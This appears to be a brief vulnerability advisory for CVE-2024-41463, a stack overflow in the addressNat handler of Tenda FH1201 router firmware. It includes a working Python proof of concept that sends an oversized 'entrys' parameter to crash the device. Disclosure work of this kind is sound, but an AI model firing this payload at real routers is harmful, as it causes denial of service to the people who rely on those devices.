


# addressNat

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41463

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the addressNat function.The parameter entrys is copied to stackspace v6 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the entrys parameter



### poc

```python
import requests

ip = '192.168.74.145'

url = f"http://{ip}/goform/addressNat"

data = {"entrys": "a"*999}

ret = requests.post(url, data)

```



